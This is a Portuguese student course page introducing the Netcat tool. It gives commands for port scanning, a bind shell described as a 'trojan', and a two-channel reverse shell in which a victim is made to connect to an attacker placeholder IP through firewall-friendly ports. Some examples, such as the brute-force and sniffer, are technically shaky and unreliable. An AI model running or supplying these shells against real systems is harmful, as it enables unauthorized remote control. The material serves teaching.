

Apresentação
Este site tem como objetivo apresentar a ferramenta NetCat para a disciplina de Segurança de Redes do curso de Ciência da Computação.
O site vai simplificar o uso da ferramenta com alguns exemplos e imagens para melhor entendimento.
Universidade Católica de Pernambuco
Nome do Aluno: Renan Oliveira de Araújo
Professor: Rubens
A ferramenta NetCat (NC)
O Netcat é uma ferramenta usada para ler e escrever dados em conexões de rede usando o protocolo TCP/IP. Dada sua grande versatilidade, o Netcat é considerado pelos hackers o canivete suíço do TCP/IP
O nome netcat vem do comando "cat" do Linux. O cat concatena arquivos e envia para a saída padrão (stdout). O netcat faz praticamente o mesmo, porém ao invés de concatenar arquivos, o netcat concatena sockets TCP e UDP.
Netcat é um serviço de rede de computador para leitura e gravação para conexões de rede usando TCP. Netcat é projetado para ser um confiável back-end que pode ser usada diretamente ou facilmente conduzido por outros programas e scripts. Ao mesmo tempo, é uma ferramenta de depuração de rede e investigação rico em recursos, uma vez que pode produzir quase qualquer tipo de conexão de seus usuários pode precisar e tem uma série de recursos internos.
Algumas utilidades
Funções
Obtendo o canivete-suíço
A maioria das distribuições Linux já vem com o netcat instalado, outras vem com ele pré-instalado. Caso sua distribuição ainda não tenha o netcat, você pode obtê-lo em www.securityfocus.com e www.packetstormsecurity.net
Para chamar o programa, basta o simples comando:
$nc
Como o Netcat funciona
A princípio o Netcat foi lançado para ser um telnet aprimorado. Até então a única utilidade que ele teria seria se conectar a um host.
Porém, como o netcat pega os dados da entrada padrão (stdin) e envia pra outra ponta da conexão, que as escreve na saída padrão (stdout), é possível utilizar ele em conjunto com o shell pra fazer inúmeras coisas.
O Netcat é chamado com o comando "nc", você pode tanto dar as sintaxes depois do nc, quanto na linha "CMD LINE" que aparece após o comando "nc" simples.
Para listar as sintaxes disponíveis no Netcat, digite:
$ nc -h
A tela ficará mais ou menos assim:

Alguns experimentos
1) CONECTANDO-SE A UM HOST
É feita da mesma maneira que o telnet. É especificado apenas um host e a porta a se conectar. Exemplos:
$nc mail.yahoo.com.br 110
$nc www.terra.com.br 80
Lembrando que a porta 110 é dos servidores de POP3 e a 80 é para web.
2) ABRINDO UMA PORTA (LISTENNING)
É utilizada a sintaxe -l para colocar em listenning e -vv para retornar eco com detalhes. A seguir é estipulada a porta:
$nc -l -p 53 -vvSerá retornada uma mensagem:
"listenning on [any] 53 ... "
3) ESCANEANDO PORTAS COM O NETCAT
Será feita uma tentativa de conexão à um IP ou host e será estipulada as portas da tentativa de conexão:
$nc -vv www.vivaolinux.com.br 110 80 139
$nc -vv www.vivaolinux.com.br 1-10000
No primeiro exemplo serão escaneadas apenas as portas 110 (POP3), 80 (web) e 139 (compartilhamento do Windows).
Já no segundo exemplo serão escaneadas desde a porta 1 até a 10000.
4) ABRINDO A PORTA, DANDO ENTRADA PARA UM "SHELL" (=TROJAN)
Será colocada a porta X em listenning, redirecionaremos a saída de dados para um shell (/bin/bash). Assim quando alguém se conectar a essa porta terá domínio total sobre o computador. Funciona de forma semelhante a um trojan.
$nc -l -e /bin/bash -p 1033
5) REALIZANDO UM BRUTE-FORCE
$nc -vv 79 < ~/wordlists.txt > bruteforce.log
Perceba, que conectaremos a porta do FINGER(79) e redirecionaremos o conteúdo do arquivo wordlists.txt para essa porta. Quando algum resultado for válido ele será salvo em bruteforce.log para uma análise posterior dos resultados.
6) FAZENDO UM SNIFFER
Além de tudo isto demonstrado acima, o 'amazing' Netcat ainda pode capturar todo o tráfego de uma rede. Eu acho que você já sabe como fazer isso se observar os redirecionamentos utilizados no exemplo anterior. Mas vamos lá.
Iremos nos conectar a uma porta e mandar o netcat "dar eco" nela, ou seja, exibir TUDO o que passa por ela. Após isso, é só redirecionar tudo o que o Netcat gravou para um arquivo. Veja a sintaxe, para melhor compreensão:
$nc -vv -L 127.0.0.1 -p 80 > ~/sniffer.log
Fazendo uma conexão reversa com o NetCat
A conexão reversa é um método de invasão parecida com os trojans, porém ocorre de maneira contrária, ou seja, não será o invasor que se conectará ao host, mas o host se conectará ao invasor, concedendo-lhe poderes administrativos. O mais surpreendente é que utilizando a imaginação, podemos fazer isso com o Netcat.
Sabendo disso, vamos tomar um IP fictício de exemplo = 200.212.21.2. O que teremos que fazer é abrir uma porta em nosso computador local e fazer, executando um código arbitrário no computador da vítima, com que ela se conecte ao nosso computador e nos conceda poderes em sua máquina. Vamos no modo gráfico e abriremos duas janelas, abrindo as portas 53 e 79:
$nc -l -n -p 53 -vv
$nc -l -n -p 79 -vv
Após isso, faremos com que a vítima execute o seguinte código no computador dela:
$nc < NOSSOIP > 53 | /bin/bash | nc < NOSSOIP > 79
Isso fará com que os comandos que nós dermos na porta 53, passem pelo shell bash e a resposta seja redirecionada na porta 79.
Lembrando que as portas 53 e 79 foram utilizadas, pois o firewall deixa essas portas abrirem, pois são de consultas DNS e FINGER respectivamente.